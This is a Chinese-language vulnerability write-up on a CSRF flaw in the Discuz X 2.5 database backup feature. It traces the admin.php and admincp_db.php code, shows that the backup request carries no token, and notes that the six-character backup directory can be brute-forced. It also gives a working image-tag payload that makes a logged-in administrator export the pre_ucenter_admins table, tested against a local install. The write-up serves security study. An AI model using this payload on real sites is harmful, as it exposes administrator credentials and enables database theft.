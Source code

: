 ### Discuz X 备份功能

由于CSRF的危害是造成Discuz X被脱库，那么我们先来看一下Discuz X的备份功能



管理员登录后，依次点击站长-数据库-自定义备份-提交，进行数据库导出备份

<img src="./img/1.png">

<img src="./img/2.png">

随后提示备份成功，然后在对应文件夹下即可找到备份的文件

<img src="./img/3.png">



### <img src="./img/4.png">



查看burp抓取的数据包，有一个post请求，三个get请求，其中，post把请求交给对应的代码进行执行，get执行代码备份了三个文件

<img src="./img/5.png">





### 漏洞分析

**漏洞成因是因为备份数据时，数据包未添加token字段（确认用户身份的唯一的/不可预测的字段）来验证用户的身份，因此，攻击者可以构造恶意网页/数据包，诱使管理员打开，从而完成恶意操作**



先来看一下第一个post请求，请求的是admin.php，**注意一下action和operation键名对应的值**

<img src="./img/6.png">



看一下admin.php的代码，这里会将我们的请求发送到admincpfile()函数里来进行对应的执行，所以，跟踪admincpfile()函数

```php
if(empty($action) || $frames != null) {
	$admincp->show_admincp_main();
} elseif($action == 'logout') {
	$admincp->do_admin_logout();
	dheader("Location: ./index.php");
} elseif(in_array($action, $admincp_actions_normal) || ($admincp->isfounder && in_array($action, $admincp_actions_founder))) {
	if($admincp->allow($action, $operation, $do) || $action == 'index') {
		require $admincp->admincpfile($action);  # 看这里
	} else {
		cpheader();
		cpmsg('action_noaccess', '', 'error');
	}
} else {
	cpheader();
	cpmsg('action_noaccess', '', 'error');
}
```



好的，找到了对应关系了，admincpfile()函数会把我们的请求的$action拼接到./source/admincp/admincp_'.$action.'.php对应的文件中去，所以，**该post对应的请求就到了 ./source/admincp/admincp_db.php里面**

```php
function admincpfile($action) {
		return './source/admincp/admincp_'.$action.'.php';
	}
```



接下来对./source/admincp/admincp_db.php进行代码分析



这两个判断对备份文件的路径进行了一个定义，如果没设置backupdir参数的话，那么backupdir为一个六位数的随机指定数值，随后跟backup_进行拼接，再然后跟./data/进行拼接，即备份的路径为：./data/backup\_加上六位随机数，可以查看我们前面成功备份的文件路径data/backup_9e5a20，六位随机数即为9e5a20

```php
if (!$backupdir) {
    $backupdir = random(6);
    @mkdir('./data/backup_' . $backupdir, 0777);
    C::t('common_setting')->update('backupdir', $backupdir);
}
$backupdir = 'backup_' . $backupdir;
if (!is_dir('./data/' . $backupdir)) {
    mkdir('./data/' . $backupdir, 0777);
}
```



在往后，filename从get获取，因此filename参数可控

```php
$backupfilename = './data/' . $backupdir . '/' . str_replace(array('/', '\\', '.', "'"), '', $_GET['filename']);
```



最后输出的文件代码如下，前面分析过，$backupdir路径中有一个六位的随机数，加上filename参数是可控的，因此在爆破$dumpfile即最终输出的备份文件时，仅需要爆破$backupdir即可获得备份文件的位置

```php
$dumpfile = $backupfilename . "-%s" . '.sql';
```



利用csrf漏洞，构造payload，即可获取到数据库的备份，注意：**customtables[]（其中中括号使用了URL编码）字段为需要导出的表名，filename为导出后文件的名称**

```php
<img src="http://127.0.0.1/Discuz_X2.5/upload/admin.php?action=db&operation=export&setup=1&scrolltop=&anchor=&type=custom&customtables%5b%5d=pre_ucenter_admins&method=multivol&sizelimit=2048&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=csrf_test&exportsubmit=yes">
```



### 漏洞利用

本次我们导出pre_ucenter_admins表，先来看看该表中的内容

<img src="./img/11.png">

首先，我们使用管理员登录

<img src="./img/8.png">



构造payload代码

<img src="./img/7.png">



管理员打开该页面

<img src="./img/9.png">



可以看到文件夹下面出现了我们备份的文件：csrf_test.sql文件

<img src="./img/10.png">

表中的内容

<img src="./img/11.png">